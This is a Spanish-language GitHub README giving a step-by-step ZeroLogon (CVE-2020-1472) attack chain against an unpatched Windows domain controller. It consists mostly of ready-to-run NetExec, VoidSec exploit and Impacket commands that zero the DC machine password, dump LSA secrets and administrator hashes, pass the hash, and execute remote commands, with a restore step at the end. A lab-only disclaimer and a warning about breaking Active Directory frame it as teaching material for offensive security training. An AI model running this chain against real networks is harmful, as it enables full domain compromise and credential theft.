 # 📌 Ataque ZeroLogon (CVE-2020-1472)

Este repositorio documenta paso a paso cómo ejecutar el ataque **ZeroLogon** utilizando `NetExec` (antes CrackMapExec), el exploit de [VoidSec](https://github.com/VoidSec/CVE-2020-1472) y herramientas de Impacket.

---

## ⚠️ Importante

> Esta guía es solo para fines **educativos** y debe usarse únicamente en laboratorios controlados con permiso explícito. **NO** ejecutes este procedimiento en redes productivas.

---

## ⚙️ Requisitos

- Controlador de dominio sin parches para CVE-2020-1472.
- Máquina atacante con:
  - Linux o WSL.
  - Python 3.
  - NetExec (`nxc`), Impacket y Git instalados.

---

## 🧭 Paso a paso del ataque

### 1. Verificar conectividad SMB con el DC

```bash
nxc smb [IP_DEL_DC]
```

Repetir si es necesario para confirmar acceso:

```bash
nxc smb [IP_DEL_DC]
```

---

### 2. Explotar ZeroLogon con NetExec

```bash
nxc smb [IP_DEL_DC] -u '' -p '' -M zerologon
```

Este módulo intenta autenticar usando claves nulas y explotar la vulnerabilidad en Netlogon.
CHECKEAR esto y si es vulnerable.... lo siguiente

---

### 3. Clonar el exploit de VoidSec

Clonar repositorio
```bash
git clone https://github.com/VoidSec/CVE-2020-1472
cd CVE-2020-1472
```

Verificar si no debemos instalar algun requisito

```bash
pip install -r requirements.txt
```

---

### 4. Cambiar la contraseña de la cuenta de equipo del DC
```bash
python3 cve-2020-1472-exploit.py
```

O usar argumentos manuales:

```bash
python3 cve-2020-1472-exploit.py -t [IP_DEL_DC] -n [NOMBRE_DEL_DC]
```

---

### 5. Volcar hashes con Impacket

```bash
impacket-secretsdump '[[NOMBRE_DEL_DOMINIO]]/[NOMBRE_DEL_DC]$@[IP_DEL_DC]'
```

Esto permite obtener los secretos de LSA y hash de administrador.

---

### 6. Validar acceso como máquina y luego como administrador 

```bash
nxc smb [IP_DEL_DC] -u '[NOMBRE_DEL_DC]$' -p '' --lsa
```
Usamos el <pre>--lsa</pre> para dumpear HEX de maquina para recuperar contraseña

Con hash de administrador (por ejemplo):

```bash
nxc smb [IP_DEL_DC] -u '[USUARIO_ADMINISTRADOR]' -H '[HASH_DE_ADMINISTRADOR]' --lsa
```

---

### 7. Restaurar la contraseña original del DC (opcional)

```bash
python3 reinstall_original_pw.py
```

O con argumentos:

```bash
python3 reinstall_original_pw.py [NOMBRE_DEL_DC]$ [IP_DEL_DC] [HEX_DE_CONTRASEÑA_DEL_DC]
```

---

### 8. Validar acceso final con hash NTLM

```bash
impacket-secretsdump '[[NOMBRE_DEL_DOMINIO]]/[NOMBRE_DEL_DC]$@[IP_DEL_DC]'
```

---

### 9. Ejecutar comando remoto como administrador

```bash
nxc smb [IP_DEL_DC] -u 'administrator' -H '[HASH_DE_ADMINISTRADOR]' -x whoami
```

---

## 🧪 ¿Qué hicimos?

- Usamos `nxc` para aprovechar la vulnerabilidad en Netlogon.
- Reemplazamos la contraseña de la cuenta del DC con una contraseña nula.
- Extraímos hashes y secretos del sistema.
- Accedimos remotamente como administrador de dominio.
- Finalmente restauramos el estado original.

---

## 📚 Referencias

- [ZeroLogon CVE-2020-1472 - NVD](https://nvd.nist.gov/vuln/detail/CVE-2020-1472)
- [VoidSec CVE-2020-1472 Exploit](https://github.com/VoidSec/CVE-2020-1472)
- [NetExec (nxc)](https://github.com/Pennyw0rth/NetExec)
- [Impacket](https://github.com/SecureAuthCorp/impacket)

------

## 🚨 Advertencia

### Riesgo crítico: el AD puede romperse
El exploit ZeroLogon cambia la contraseña de la cuenta de máquina del controlador de dominio. Si no se restaura rápidamente, el controlador ya no podrá autenticarse ni replicarse con otros DCs.

**Esto puede:**
- Romper la replicación del Active Directory.
- Causar fallos en políticas, usuarios y servicios.
- Obligar a restaurar el dominio desde backups.

### 🛑 Siempre restaurá la contraseña original del DC antes de que se sincronice con otros controladores.

---

## 👤 Autor

Explicación elaborada por [Sebastian Peinador](https://www.linkedin.com/in/sebastian-j-peinador/) para propósitos didácticos y de investigación en ciberseguridad ofensiva.
